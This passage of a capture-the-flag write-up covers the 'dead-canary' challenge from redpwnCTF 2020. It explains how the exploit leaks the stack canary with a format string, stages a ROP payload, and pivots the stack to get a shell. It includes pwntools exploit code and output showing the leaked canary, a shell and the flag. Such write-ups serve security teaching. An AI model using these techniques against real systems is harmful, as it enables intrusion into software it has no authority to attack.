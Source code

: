 The second pass is not unlike the first pass, but this time we leak the canary.  But also setup our payload in the stack.  Again it is important to keep it all stack aligned.  And again we have to overwrite the canary byte to trigger a third pass.  The good news is that the canary least significant byte is always `0x00`, so we just need to read `16` bytes from the emitted `18`, and shift left for the `0x00`.

At this point we also have our payload in the stack.  When this second pass _jumps_ (not _returns_) back to `main`, `main` will allocate more stack space, leaving this stack space alone, _right on top of this stack space_.  You can follow the assembly to see this, or just play around in GDB (I did).

On the third pass the stack will look like this:

```
3rd pass 264 char buffer (<- rsp)
3rd pass canary (same as all canaries)
3rd pass rdb
3rd pass return address
2nd pass 8-byte format string to emit canary (%39$018p)
2nd pass address to ret gadget
2nd pass address to pop rdi gadget
...
```

```python
# final pass pivot
p.recvuntil('name: ')
payload  = (0x118 - 0x10) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(add_rsp_8)
p.send(payload)
p.interactive()
```

For the final pass we just need to craft a payload with the canary for our bof attack. `(0x118 - 0x10) * b'A'` will fill the buffer with `A`s up to the canary, next send the leaked canary, after that 8 bytes for the save base pointer, then finally 8 bytes to change the stack pointer to our payload.  That `add rsp,8` will just jump over the `%39$018p` left over from emitting the canary (a `pop rdi` would have done the same).  With the stack pointer now positioned at our payload we get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/dead-canary/bin/dead-canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './dead-canary'
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[*] __libc_start_main: 0x7f679bdf9ab0
[*] baselibc: 0x7f679bdd8000
[*] canary: 0x6a3b6d6c6f4b8500
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ cat flag.txt
flag{t0_k1ll_a_canary_4e47da34}
```